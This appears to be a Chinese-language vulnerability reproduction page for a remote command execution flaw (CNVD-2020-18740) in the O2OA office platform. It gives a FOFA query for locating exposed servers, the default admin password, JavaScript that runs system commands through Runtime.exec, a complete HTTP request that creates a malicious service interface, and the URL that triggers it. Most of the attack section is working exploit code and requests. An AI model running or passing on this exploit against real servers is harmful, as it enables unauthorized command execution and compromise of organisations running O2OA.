





# O2OA invoke 后台远程命令执行漏洞 CNVD-2020-18740

## 漏洞描述

O2OA是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台,集工作汇报、项目协作、移动OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA系统invoke 接口存在远程代码执行漏洞。攻击者可利用漏洞执行任意代码。

## 漏洞影响

```
O2OA
```

## FOFA

```
title=="O2OA"
```

## 漏洞复现

登录页面



默认密码登录后台 `xadmin/o2`



在应用中找到服务管理，创建接口代码执行系统命令

```
var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream()));

var result = [];
while (true) {
    var oneline = bufReader.readLine();
    result.push(oneline);
    if (!oneline) break;
}
var result = { "Result": result };
this.response.setBody(result, "application/json"); 
```



请求包

```
POST /x_program_center/jaxrs/invoke?v=6.3 HTTP/1.1
Authorization: PfyuxmzgIzrrkjVKSmRBJ4uCkH5tYmpq50QnO7mEHhA

{"id":"cmd","name":"cmd","enableToken":false,"alias":"","description":"","validated":true,"enable":true,"text":"var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(\"id\").getInputStream()));\n\nvar result = [];\nwhile (true) {\n    var oneline = bufReader.readLine();\n    result.push(oneline);\n    if (!oneline) break;\n}\nvar result = { \"Result\": result };\nthis.response.setBody(result, \"application/json\"); ","remoteAddrRegex":"","createTime":"2022-08-27 04:39:18","updateTime":"2022-08-27 04:39:18"}
```



创建成功后访问接口执行系统命令

```
/x_program_center/jaxrs/invoke/cmd/execute
```

